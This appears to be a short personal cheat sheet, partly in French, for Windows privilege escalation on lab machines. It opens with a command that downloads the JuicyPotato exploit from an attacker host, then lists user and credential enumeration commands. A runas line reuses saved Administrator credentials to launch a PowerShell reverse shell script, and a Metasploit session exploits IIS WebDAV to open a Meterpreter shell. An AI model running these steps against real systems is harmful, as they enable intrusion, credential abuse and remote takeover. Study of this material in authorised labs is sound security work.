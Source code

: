     invoke-webrequest -uri http://10.10.14.15:81/juicypotato.exe -outfile jp.exe

## Make invisible visible

```
attrib *.* -h -s  : affiche les fichiers cachés
```


## Get User info

````
net user
net user (username)
````

Some others
````
echo %username%
whoami
echo %username%
echo %userprofile%
net localgroup
net config Workstation | find "User name"
query user
wmic useraccount get name
wmic /node: "127.0.0.1" computersystem get username
qwinsta
cmdkey /list
````

## Get stored credentials
````
> cmdkey /list
Currently stored credentials:
    Target: Domain:interactive=ACCESS\Administrator
                               Type: Domain Password
    User: ACCESS\Administrator
````
And use them
````
runas /user:ACCESS\administrator /savecred "powershell -ExecutionPolicy Bypass -File C:\Users\security\AppData\Local\Temp\Invoke-PowerShellTcp.ps1"
````
## Meterpreter

https://zero-day.io/windows-privilege-escalation-exploit-suggester/


````
# msfconsole
         
msf > use windows/iis/iis_webdav_scstoragepathfromurl
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > set RHOST 10.10.10.14
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > exploit
[*] Meterpreter session 1 opened (10.10.14.30:4444 -> 10.10.10.14:1031) at 2019-09-01 07:46:19 +0200

ps
Migrate xxx

trl-Z  : put session 1 in background

Background session 1? [y/N]  
msf exploit(windows/iis/iis_webdav_scstoragepathfromurl) > use post/multi/recon/local_exploit_suggester
````